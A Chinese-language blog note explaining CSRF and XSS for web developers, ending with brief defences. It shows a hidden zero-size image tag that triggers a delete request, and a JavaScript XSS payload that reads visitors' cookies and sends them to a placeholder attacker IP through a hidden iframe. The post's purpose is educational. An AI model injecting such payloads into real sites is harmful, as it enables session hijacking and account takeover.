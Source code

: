 ```yaml
---
title: CSRF 和 XSS
date: 2019-10-27
tags:
---
```


最近在做一个网站，因爲涉及到比较重要的账号，我一直战战兢兢，生怕一个不小心就搞出问题了。好在，rails 在安全方面所做的努力比我做的多得多。

说到网络攻击，最常见到的两个词就是 CSRF 和 XSS。这是比较常见，也比较简单的攻击了。只要网站的设计者缺少这方面的常识，就能轻易攻击。不过现在的网站框架都会加上这方面的防护了吧？

不过，我还是想做个简短的笔记，来回忆这几天的想法。

## 什麽是 CSRF

Crossing Site Request Forgery，跨站请求僞造。是一种利用 Cookies 进行攻击的方式。

在解释 CSRF 前，我们先来了解一下 Cookies 和 Sessions。由于 HTTP 的无状态机制，任意两个网页之间都是无关联的。爲了让它们产生关联，诞生了 sessions 和 cookies。当我们打开网站时，都是一个会话(sessions)，浏览器会临时保存这个 sessions，服务器靠着 sessions 来识别衆多用户中谁是谁，正因爲 浏览器 保存着 sessions，服务器才有能力辨识，当前访问的用户是 A 不是 B。浏览器被关闭后，就会消去 sessions。而 cookies 是保存得更久一点的方法，即使浏览器关掉后，也会保留一段时间。

大坏蛋就利用这两个机制，发起了 CSRF。

举个简单的例子。小明在 A 网站（http://A.com）登录后，爲了保证访问下一个页面时，服务器知道他是小明，浏览器里保存了 Cookies，当访问该网站的下一个页面是，就会连同 Cookies 一同发出。之后小明发表了一篇 id 爲 3 的论文。大坏蛋的 B 网站里，有一张图片是这样的。

```
<img src='https://A/delete?id=3' width='0' height='0' />
```

这段代码表示，在网页上显示长宽爲 0 的图片。虽然长宽爲 0，小明看不到，但浏览器却能看到，它会尝试访问 A 网站，并执行删除操作，将 id 爲 3 的文章删了。

如果是其它人的浏览器，访问了也就访问了，他们的浏览器访问 https://A/delete?id=3之后，并没有多大影响，因爲他们的浏览器里没有 cookies，没有登录，拒决了访问。

但对小明而言，这就是大问题了。小明的浏览器会访问 https://A/delete?id=3，然后将 A 网站的 Cookies 也一併伟过去。这个请求被A 网站的服备器收到，它们验证 Cookies，也没问题，是小明本人发过来的，那就执行删除操作吧。

于是，小明在不明不白的情况下，将自己发表在 A 网站上的文章删除了。

CSRF 是利用了用户对浏览器的信任，进行了攻击。XSS 和 CSRF 很像，但利用的是用户的另一个弱点。

## 什麽是XSS

和上面的方法很相似，攻击者在通过代码注入的形式，将攻击代码写入网页。

但它并非进行 CSRF 攻击，而是通过 JS 代码，获取打开网页的用户 cookies。

还是个简单的例子。

小明吸取了教训，在登录其它网站前，会登出 A 网站的用户，只有在访问 A 网站时，才会登录。

然而攻击者 小坏蛋 在 A 网站发表了一篇文章，然后在文章里注入

```
// 用 <script type="text/javascript"></script> 包起来放在文章中
(function(window, document) {
    var cookies = document.cookie;
    var xssURIBase = "http://小坏蛋的IP/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    document.body.appendChild(hideFrame);
})(window, document);
```

明面上，这篇文章没什麽问题，因爲 iframe 被隐藏了。但只要有人点开，就会触发上面的代码，将 cookies 发送到小坏蛋的网站。小坏蛋就获得了其他人的身份，大摇大摆的删除文章了。

与 CSRF 不同，这一次，小明并没有上不正规的网站，他浏览的是正规的 A 的网站，却依旧遭到了攻击。这一次，攻击的是 小明 对网站的信任。

---

所以，有些时候，我们不能将用户受到网络攻击，归到他们不注重自身安全（虽然很大一部分时间的确是这样的）。用户更多时候，是没有能力保证安全的，即使再注意，不上小网站，也会遭到 XSS 攻击。

因此在设计一个系统，一个网站时，我们要加强系统本身的抗打击能力。比如对付 CSRF，就验证访问源，使用 JWT 替代 cookies；对付 XSS，用过滤，警惕自己的用户。

道高一尺，魔高一丈。最近看了关于网络安全方面的文章，觉得自己还有很长的路要走。
